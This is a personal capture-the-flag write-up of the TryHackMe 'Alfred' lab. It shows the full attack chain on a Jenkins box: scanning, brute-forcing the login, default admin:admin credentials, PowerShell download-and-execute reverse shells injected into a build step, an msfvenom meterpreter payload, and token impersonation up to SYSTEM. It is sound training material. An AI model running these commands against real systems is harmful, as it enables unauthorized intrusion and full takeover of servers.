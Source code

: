 # Alfred [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Metasploit Exploitation_
<sub>This is a TryHackMe walkthrough room and it details metasploit steps for exploitation, so we will have to follow it.</sub>

Let's define a host machine's IP in a variable:

```
h0st=10.10.10.10
```

Let's define the target machine's IP address in a variable:

```
targ3t=10.10.163.191
```

Let's see what `nmap` can show us about this target. It doesn't respond to ping, so we are adding a `-Pn` flag to it:

```
nmap -A -Pn $targ3t -oN general.scan -vv
```

On port 80 we have what looks like a static site. On port 8080, there seems to be a login form. And 3389 seems like an RDP. Let's start with the `gobuster` and closely follow it with a `feroxbuster`:

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
feroxbuster -u http://targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

`feroxbuster` didn't find much, I'm wondering if gobuster will find anything, but before then I'll fill in the answer on THM:

- There are only **3** tcp ports open;

Now I think we can try and brute force the login form at port `8080` with `hydra` using `alfred` as username. let's try it:

```
hydra -l alfred -P /usr/share/wordlists/rockyou.txt $targ3t -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid" -vV
```

It didn't find anything, and then I noticed on the room's walkthrough page, the question asks for `*****:*****` format user password, which means `alfred` cannot be the username. So I googled what default credentials for Jenkins are and apparently it's `admin:admin`:

- The username and password for the login panel are **admin:admin**

Now that we logged in, the walkthrough tells us to find a way on this system to execute commands on the server. On the dashboard, under the project options, if we click **configure** it will take us to a build section that executes code.

First, let's download `Invole-PowerShellTcp.ps1` script:

```
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
```

Then let's start a python server:

```
python -m http.server 8123
```

After that let's copy the PS command in the walkthrough and insert it in the configuration input:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Before we save this, let's start netcat in another shell:

```
nc -lvnp 9999
```

After this let's go back to the project options and press **Build Now**. In a few seconds we will receive a shell on netcat!

This is a PS Shell so the following commands apply to get the flag:

```
Set-Location -Path C:\Users\bruce\Desktop
Get-ChildItem
Get-Content user.txt
```

Next, the walkthrough details a way to use `metasploit` to change shell from PS to `meterpreter`:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

Now we need to upload this as a reverse shell and then use `msfconsole` to convert it to meterpreter. First we need to start the python server again:

```
python -m http.server 8000
```

Let's answer the room's question while we're at it:

- The final size of the generated exe payload is **73802** bytes

Now let's use modified `PowerShell` command in the Jenkins project:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

This command has to be above the previous `PowerShell` command that we have injected, it will not work otherwise.

Press `save` but don't `build now` yet. 

Now let's set up everything in metasploit console:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
run
```

Now let's go back to Jenkins project and press **Build Now**.

And we have received a meterpreter shell:

```
meterpreter >
```

Now back in the first shell (the one we obtained with `netcat`) see what privileges are available:

```
whoami /priv
```

As walkthrough denotes we have `SeDebugPrivilege` and `SeImpersonatePrivilege` enabled. So we are going to have to exploit them with meterpreter:

```
load incognito
```

Let's see available tokens in `meterpreter`'s `incognito` module:

```
list_tokens -g
```

`BUILTIN\Administrators` token is available, let's use it:

```
impersonate_token "BUILTIN\Administrators"
getuid
```

- `getuid` command returns `NT AUTHORITY\SYSTEM`.


Let's try to migrate to `services.exe` process as the walkthrough indicates:

```
ps
migrate 668
```

Let's read the root file now located at: `C:\Windows\System32\config`

```
cat c:/Windows/System32/config/root.txt
```

We got a root flag! 
